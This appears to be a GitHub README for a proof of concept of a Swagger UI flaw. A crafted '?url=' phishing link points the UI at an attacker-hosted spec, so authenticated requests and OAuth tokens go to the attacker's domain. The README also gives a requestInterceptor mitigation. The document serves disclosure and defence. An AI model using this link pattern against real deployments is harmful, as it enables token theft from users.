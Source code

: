 # PoC for a Swagger UI XSS vulnerability

## Reproduction

This XSS follows the following scenario:

1. User is sent a phishing link of the following form:

   ```
   https://<legitimate-domain>/?url=https://<attacker-domain>/api-docs.yaml
   ```

   Note that `https://<attacker-domain>/api-docs.yaml` can be an _exact copy_ of `https://<legitimate-domain>/api-docs.yaml`, to spoof it for the user.
   
   As an example, you can try `https://gist.githubusercontent.com/dinvlad/04a47bd905ef41ed9a22d115e5510f9d/raw/8374876ca31f651a49662eaf51312460b1d336ca/api-docs.yaml`
   as attacker's URL.

2. User authenticates over OAuth, and gets redirected back to `https://<legitimate-domain>/?url=https://<attacker-domain>/api-docs.yaml`.
3. User submits an API request to the server using Swagger UI.
4. Observe in the browser Network tab and in the Curl command that the authenticated request is actually sent to `https://<attacker-domain>`, instead of `https://<legitimate-domain>`. As such, the attacker can capture and exploit a valid user token produced by Google for the legitimate domain.

   In the example above, the request will be sent to `https://gist.githubusercontent.com`.

## Mitigation

Until (and if) this issue is addressed upstream by the Swagger UI team, please add the following parameter to the Swagger UI config:

```js
requestInterceptor: req => {
  req.hostname = window.location.hostname;
  return req;
},
```

As an example, please see how it's implemented in [index.html](https://github.com/broadinstitute/swagger-ui-xss-poc-fix/blob/57aa9a7820e0bc736eefbdb9f8725e464dd395d7/index.html#L57-L60).
You can serve this example locally using `node index.js`.
